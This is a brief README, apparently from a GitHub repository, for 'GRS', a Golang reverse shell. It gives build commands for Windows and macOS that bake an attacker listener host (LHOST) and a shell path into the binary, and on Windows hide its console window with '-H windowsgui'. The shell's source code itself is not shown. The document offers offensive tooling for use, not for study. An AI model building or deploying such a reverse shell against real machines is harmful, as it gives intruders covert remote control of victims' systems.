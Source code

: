 # GRS
### A Golang reverse shell


#### To build:
Windows:
    $ go build -ldflags "-X 'main.host=**LHOST**' -X 'main.shell=**shell path**' -H windowsgui" "windows/GRS.go"
    
Darwin:
    $ go build -ldflags "-X 'main.host=**LHOST**' -X 'main.shellPath=**shell path**'" "darwin/GRS.go"
